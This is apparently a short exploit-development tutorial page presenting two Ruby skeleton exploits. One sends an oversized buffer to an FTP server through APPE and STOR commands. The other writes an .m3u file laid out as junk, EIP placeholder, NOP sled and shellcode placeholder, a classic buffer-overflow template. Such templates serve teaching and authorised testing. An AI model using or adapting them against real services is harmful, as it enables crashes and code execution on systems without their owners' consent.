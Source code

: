# Module 0x5 | Exploitation KungFu

## Skeleton exploit

It's really a good thing to have a skeleton exploit to edit and use quickly during your exploitation process. 

### Network base 

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'

buffer = "A" * 2000

#--> Networking
host = ARGV[0]
port = ARGV[1] || 21

s = TCPSocket.open(host, port)
s.recv(1024)
puts "[+] Sending Username."
s.send("USER ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Password."
s.send("PASS ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Evil buffer..."
s.send("APPE " + buffer + "\r\n", 0)
total = s.send("STOR " + buffer + "\r\n", 0)
#--> Exploit Info
puts "[+] " + "Total exploit size: " + "#{total} bytes."
puts "[+] " + " Buffer length: " + "#{buffer.size} bytes."
puts "[+] Done"

s.close
```
To execute it
```
ruby ftp_exploit.rb [TARGET] [PORT]
```
Notice that some services has to receive from it and some does not.

### File base 

Creating a simple exploit file 

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI

file = ARGV[0] || "exploit.m3u"

junk  = "A" * 2000
eip   = "B" * 4
nops  = "\x90" * 8
shell = "S" * 368
exploit = junk + eip + nops + shell

File.open(file, 'w') {|f| f.write(exploit)}
puts "[*] Exploit size: #{exploit.size}"
```
To execute it
```
ruby m3u_exploit.rb song1.m3u
```

<br><br><br>
---
